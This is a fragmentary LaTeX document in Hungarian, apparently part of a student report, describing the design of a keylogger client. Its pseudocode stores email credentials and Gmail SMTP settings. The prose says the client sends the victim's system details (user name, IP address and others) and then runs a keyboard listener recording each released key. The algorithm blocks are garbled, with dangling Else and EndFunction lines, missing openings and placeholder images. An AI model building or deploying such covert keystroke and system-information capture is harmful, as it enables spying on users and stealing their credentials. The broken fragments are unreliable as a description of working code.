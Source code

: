 \documentclass[a4paper, 11pt]{article}
\begin{document}
\begin{algorithmic}[H]
	\State $self.email\_address \gets email\_address$
	\State $self.email\_password \gets email\_password$
	\State $self.smtp\_alias \gets\ 'smtp.gmail.com'$
	\State $self.smtp\_port \gets 587$
	\State $self.keys \gets None$
		\State $self.connection \gets connection$
	\Else
		\State \textbf{raise} $TypeError$
	\EndIf
\EndFunction
\end{algorithmic}
Az első adat nem követi a megállapított protokolt. Ez az adat tartalmazza a kliens rendszerének információit:
\begin{itemize}
\item system name
\item device name
\item release
\item version
\item architecture
\item cpu info
\item user name
\item ip address
\end{itemize}
Ezek után el lesz indítva egy halgató, amely lehalgatja a számítógéphez csatlakoztatott billentyűzetet, amely akkor írja felül a $keys$ attribútumot, amikor a felhaszáló elengedi a billentyűt. Az attribútum felülírásáról az $on\_release$ függveny gondoskodik.
\begin{figure}[H]
\centering
\texttt{[image: ../images/Capture12]}
\caption{Listener}
\label{fig:listener}
\end{figure}
\begin{figure}[H]
\centering
\texttt{[image: ../images/Capture13]}
\caption{on\_release}
\label{fig:onrelease}
\end{figure}

\begin{algorithmic}[H]
\State $keyboard\_listener \gets \Call{Listener}{$on\_release$}$
\State $keyboard\_listener.\Call{start}{$$}$
	\State $self.keys \gets key$
\EndFunction
\end{algorithmic}
\end{document}

